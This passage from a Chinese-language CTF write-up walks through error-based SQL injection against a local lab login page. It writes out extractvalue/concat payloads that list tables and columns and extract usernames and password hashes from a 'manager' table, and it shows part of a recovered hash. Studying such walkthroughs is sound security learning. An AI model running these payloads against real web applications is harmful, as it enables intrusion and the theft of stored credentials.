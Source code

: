上面构造了`select version()`函数来测试sql注入能否成功。

浏览器访问`http://127.0.0.1:8888/login`，**F12**打开调试器，在**console**输入`document.cookie`，获取加密后的cookie

![ctf-20180416212854918](/images/posts/ctf/ctf-20180416212854918.png)

在登陆页面，用Burpsuite截取流量，放到repeater中。

修改`/login`为`/lock`,并将加密的`username`放到**cookie**的中:

![ctf-20180416213147605](/images/posts/ctf/ctf-20180416213147605.png)

在response中得到版本信息，说明SQL注入语句成功执行。

呼，总算有些进展了~

尴尬的是，临时创建的靶场都超时了，无奈又创建一个...

下面来正式踏入漫长的SQL注入语句构造之旅：

- 查表名

  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(distinct table_name) from information_schema.tables where table_schema=database())))-- 
  ```

  ![ctf-20180416214713985](/images/posts/ctf/ctf-20180416214713985.png)

  选择`manager`表

- 查属性名

  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='manager')))-- 
  ```

  ![ctf-20180416215026690](/images/posts/ctf/ctf-20180416215026690.png)

  终于看到username和password了

- 查用户名密码

  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(username,'|',password,'|',email) from manager))) -- 
  ```

  ![ctf-20180416220736390](/images/posts/ctf/ctf-20180416220736390.png)

  得到`username|password`：`ichuqiu|318a61264482e503090facf`

  明显密码显示不全，达不到MD5加密后的32位

- 继续构造查询密码后几位

  ```bash
  ' and extractvalue(1,concat(0x5c,mid(select group_concat(username,'|',password,'|',email) from manager), 20, 54)) -- 
  ```
